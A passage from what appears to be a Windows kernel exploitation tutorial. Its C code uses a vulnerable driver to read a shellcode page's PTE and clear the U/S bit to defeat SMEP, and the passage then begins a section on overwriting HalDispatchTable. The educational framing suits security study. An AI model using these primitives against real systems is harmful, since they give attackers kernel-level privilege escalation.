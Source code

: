 ```c
	// Actual buffer for extracting PTE control bits
	memcpy(buffer, &shellcodePte, oneQword);
	memcpy(&buffer[0x8], &pteControlFlagsPointer, oneQword);

	sendBufferToDriver(hDriver, buffer);

	LOG("[+] PTE control bits for shellcode page: %p\n", (unsigned long long) * pteControlFlagsPointer);

	return (unsigned long long) * pteControlFlagsPointer;
}
```

Lastly, let's change the `U/S` flag -
```c
void changeUSFlag(HANDLE hDriver, unsigned long long pteControlFlags , unsigned long long shellcodePte) {

	// Corrupting U/S bit in PTE to make user mode page become kernel mode.
	unsigned long long taintedPte;
	taintedPte = pteControlFlags & 0xFFFFFFFFFFFFFFFB;

	// Defining pointer for corrupted PTE bits.
	PULONGLONG taintedptePointer = &taintedPte;

	// Defining buffer to send to driver.
	char buffer[0x10];
	size_t oneQword = 0x8;

	// Initializing buffer to junk to satisfy type error of memset.
	memset(buffer, 0x41, 0x10);

	// Actual buffer for corrupting PTE.
	memcpy(buffer, &taintedptePointer, oneQword);
	memcpy(&buffer[0x8], &shellcodePte, oneQword);

	// Print update for corrupting PTE
	LOG("[+] Corrupting PTE of shellcode to make U/S bit kernel mode...\n");

	sendBufferToDriver(hDriver, buffer);
}
```

So, at this point we can say "good bye" to SMEP and continue into modifying the pointer inside `HalDispatchTable`.

### Modifying HalDispatchTable
From "Geoff Chappell" -
> The HAL_DISPATCH structure is a table of pointers to optional HAL functionality. The kernel keeps the one instance of this table. It’s in the kernel’s read-write data section and its address is exported as HalDispatchTable. The table initially has the kernel’s built-in implementations of most (but not all) functions. Many are trivial. Some are substantial. The HAL overrides some. No known HAL overrides all. Functionality that has no meaning to a particular HAL is left to the kernel’s default (and HAL programmers are spared from writing even dummy code for nothing that matters to them). Moreover, since the address is exported, rather than communicated specifically to the HAL, it seems to have been intended all along that the functionality is exposed to other kernel-mode modules such as drivers not only for them to call but also to override further.
